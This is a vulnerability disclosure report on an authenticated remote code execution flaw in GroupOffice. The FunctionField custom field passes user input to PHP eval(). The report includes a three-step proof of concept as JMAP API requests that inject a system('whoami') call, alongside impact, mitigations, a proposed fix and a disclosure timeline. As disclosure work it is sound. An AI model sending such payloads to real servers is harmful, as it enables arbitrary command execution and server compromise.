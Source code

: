 ```yaml
---
title: CVE XXXX-XXXXX
date: 2025-09-30 12:14:12 +1
categories: [CVE]
tags: [CVE, RCE]
---
```


# GroupOffice Remote Code Execution Vulnerability Report

## Executive Summary

A critical Remote Code Execution (RCE) vulnerability has been discovered in GroupOffice that allows authenticated users with custom field management privileges to execute arbitrary PHP code on the server. This vulnerability affects the custom field functionality and can lead to complete server compromise.

## Vulnerability Details

**Product**: GroupOffice  
**Affected Component**: Custom Field Function Field Type  
**Vulnerability Type**: Remote Code Execution (RCE)  
**Severity**: Critical (CVSS 3.1: 9.1)  
**Authentication Required**: Yes (with `mayChangeCustomFields` permission)  
**CVE ID**: Pending Assignment  

## Technical Description

The vulnerability exists in the `FunctionField` class located at `/www/go/core/customfield/FunctionField.php`. The `dbToApi()` method uses PHP's `eval()` function to execute user-controlled input without proper sanitization:

```php
// Line 65 in FunctionField.php
eval("\$result = " . $f . ";");
```

The variable `$f` contains the value from `$this->field->getOption("function")`, which is directly controlled by users who can create or modify custom fields of type "FunctionField".

## Proof of Concept

### Step 1: Create a FieldSet
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["FieldSet/set", {
      "create": {
        "temp1": {
          "name": "Test FieldSet",
          "entity": "Contact"
        }
      }
    }, "c1"]
]
```

### Step 2: Create Malicious FunctionField
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["Field/set", {
      "create": {
        "temp1": {
          "name": "Calculator Field",
          "fieldSetId": "1",
          "type": "FunctionField",
          "databaseName": "calc_field",
          "options": {
            "function": "system('whoami'); 42"
          },
          "sortOrder": 1
        }
      }
    }, "c1"]
]
```

### Step 3: Trigger Code Execution
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["Contact/get", {
      "ids": null,
      "properties": ["id", "name", "customFields"]
    }, "c1"]
]
```

### Expected Result
The server executes the `whoami` command and returns the result in the custom field value, demonstrating successful code execution.

## Impact Assessment

- **Complete Server Compromise**: Attackers can execute arbitrary system commands
- **Data Exfiltration**: Access to sensitive files and database contents
- **Lateral Movement**: Potential to compromise other systems on the network
- **Service Disruption**: Ability to modify or delete critical system files
- **Privilege Escalation**: Depending on web server configuration

## Affected Versions

This vulnerability affects GroupOffice installations that include the custom fields functionality. The exact version range needs to be determined by the development team.

## Prerequisites for Exploitation

1. Valid authentication to GroupOffice
2. User account with `mayChangeCustomFields` permission
3. Access to entities that support custom fields (Contacts, Notes, Tasks, etc.)

## Mitigation Recommendations

### Immediate Actions
1. **Disable FunctionField Type**: Remove or disable the FunctionField custom field type
2. **Review Permissions**: Audit users with `mayChangeCustomFields` permissions
3. **Monitor Logs**: Check for suspicious custom field creation activities

### Long-term Fixes
1. **Remove eval() Usage**: Replace `eval()` with a safe mathematical expression parser
2. **Input Validation**: Implement strict validation for function field expressions
3. **Sandboxing**: If mathematical expressions are needed, use a sandboxed parser library
4. **Code Review**: Audit all instances of `eval()`, `system()`, `exec()` in the codebase

## Proposed Fix

Replace the vulnerable code in `FunctionField.php`:

```php
// VULNERABLE CODE (Line 65)
eval("\$result = " . $f . ";");

// SECURE ALTERNATIVE
try {
    // Use a safe mathematical expression evaluator
    $parser = new MathExpressionParser();
    $result = $parser->evaluate($f);
} catch (Exception $e) {
    $result = null;
}
```

## Timeline

- **Discovery Date**: 2025-08-28
- **Vendor Notification**: 2025-08-29
- **Vendor Response**: Yes
- **Fix Released**: Fixed in 25.0.47 and 6.8.136

## Credit

Discovered by: Noah "nxvh" Heraud  
Contact: heraud260@gmail.com  

## Responsible Disclosure

This vulnerability is being reported following responsible disclosure practices. We request:

1. Acknowledgment of this report within 5 business days
2. Regular updates on remediation progress
3. Credit in security advisories and release notes
4. Coordination on public disclosure timing

## References

- [GroupOffice Official Website](https://www.group-office.com/)
- [OWASP Code Injection Prevention](https://owasp.org/www-community/attacks/Code_Injection)
- [CWE-94: Improper Control of Generation of Code](https://cwe.mitre.org/data/definitions/94.html)
